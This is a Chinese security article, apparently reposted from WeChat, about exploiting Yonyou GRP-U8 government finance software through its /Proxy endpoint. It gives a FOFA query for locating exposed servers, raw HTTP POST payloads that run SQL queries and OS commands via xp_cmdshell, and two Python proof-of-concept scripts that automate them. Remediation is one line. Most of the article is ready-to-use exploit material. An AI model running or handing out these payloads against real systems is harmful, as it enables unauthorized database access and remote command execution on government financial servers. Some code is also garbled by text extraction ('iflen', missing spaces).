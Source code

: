 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/xFGBEigTXQxMo0em4gzV0Q)

### **一、漏洞介绍**

 用友 GRP-U8 行政事业财务管理软件是用友公司专注于国家电子政务事业，基于云计算技术所推出的新一代产品，是我国行政事业财务领域最专业的政府财务管理软件。用友 GRP-u8 被曝存在 XXE 漏洞，该漏洞源于应用程序解析 XML 输入时没有限制外部实体的加载，导致可加载恶意外部文件，可以执行 SQL 语句，甚至可以执行系统命令。

### **二、影响版本**

**GRP-U8**

### **三、漏洞复现**

#### 1. 环境搭建

fofa 语法

title="GRP-U8"

#### 2. 漏洞复现

(1): 执行 SQL 语句 payload

POST/Proxy HTTP/1.1  
Host: xxx.xxx.xxx.xxx  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0  
Connection: close  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 386  
   
cVer=9.8.0&dp=<?xml version="1.0"encoding="GB2312"?><R9PACKETversion="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATAformat="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATAformat="text">select@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaV90ZgbJcCFIkrHEkfy7rbgr0vic8FYm8C9QZdqicv9JyG0kPwQXNZZ4TgXr9GQ8icUmuNJ6YH4Zl9g/640?wx_fmt=png)

(2): 执行 SQL 语句脚本

```
import re 
import requests 
import sys 
 
iflen(sys.argv) !=2: 
    print("Usage: python poc.py url") 
    print("example: python poc.py http://127.0.0.1:8080") 
    sys.exit(1) 
url = sys.argv[1] 
headers = { 
    "User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6)AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36", 
    "Content-Type":"application/x-www-form-urlencoded", 
} 
def poc(url): 
    url = url +'/Proxy'
    print(url) 
    data ='cVer=9.8.0&dp=<?xmlversion="1.0" encoding="GB2312"?><R9PACKETversion="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATAformat="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATAformat="text">select@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'
    res = requests.post(url,headers=headers,data=data) 
    res = res.text 
    result_row =r'<ROW COLUMN1="(.*?)"'
    ROW = re.findall(result_row,res,re.S| re.M) 
    print(ROW[0]) 
if__name__=="__main__": 
    poc(sys.argv[1])
```

(3): 使用方法

python3GRP-U8.py url

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaV90ZgbJcCFIkrHEkfy7rb3Zr0xnoclTbxhGQBEJv3WfFgoKiaIibic63n0vLdssqq7A8KyAEoAiahJg/640?wx_fmt=png)

(4): 执行命令 payload

POST/Proxy HTTP/1.1  
Host: xxx.xxx.xxx.xxx  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8  
Cookie: JSESSIONID=25EDA97813692F4D1FAFBB74FD7CFFE0  
Connection: close  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 357  
   
cVer=9.8.0&dp=<?xml version="1.0"encoding="GB2312"?><R9PACKETversion="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATAformat="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATAformat="text">exec xp_cmdshell'whoami'</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaV90ZgbJcCFIkrHEkfy7rbONyrHibCbaWKhZTSGp4t5Bkg9libyIAATqxjd3zMb8R2sf9bHUspjkdA/640?wx_fmt=png)

(5): 执行命令脚本

```
import re 
import requests 
import sys 
 
iflen(sys.argv) !=2: 
    print("Usage: python poc.py url") 
    print("example: python poc.py http://127.0.0.1:8080") 
    sys.exit(1) 
url = sys.argv[1] 
headers = { 
    "User-Agent":"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6)AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36", 
    "Content-Type":"application/x-www-form-urlencoded", 
} 
def poc(url): 
    url = url +'/Proxy'
    print(url) 
    data ='cVer=9.8.0&dp=<?xmlversion="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATAformat="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATAformat="text">exec xp_cmdshell"whoami"</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'
    res = requests.post(url,headers=headers,data=data) 
    res = res.text 
    result_row =r'<ROW output="(.*?)"'
    ROW = re.findall(result_row,res,re.S| re.M) 
    print(ROW[0]) 
if__name__=="__main__": 
    poc(sys.argv[1])
```

(6): 使用方法

python3GRP-U8.py url

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MaV90ZgbJcCFIkrHEkfy7rbuWunwTBgpWC5jsAcBAEFLtZQCRgqJhiar7nX4yVsIFz5tnLNrHzkAiag/640?wx_fmt=png)

### 四、修复建议

1. 升级到安全版本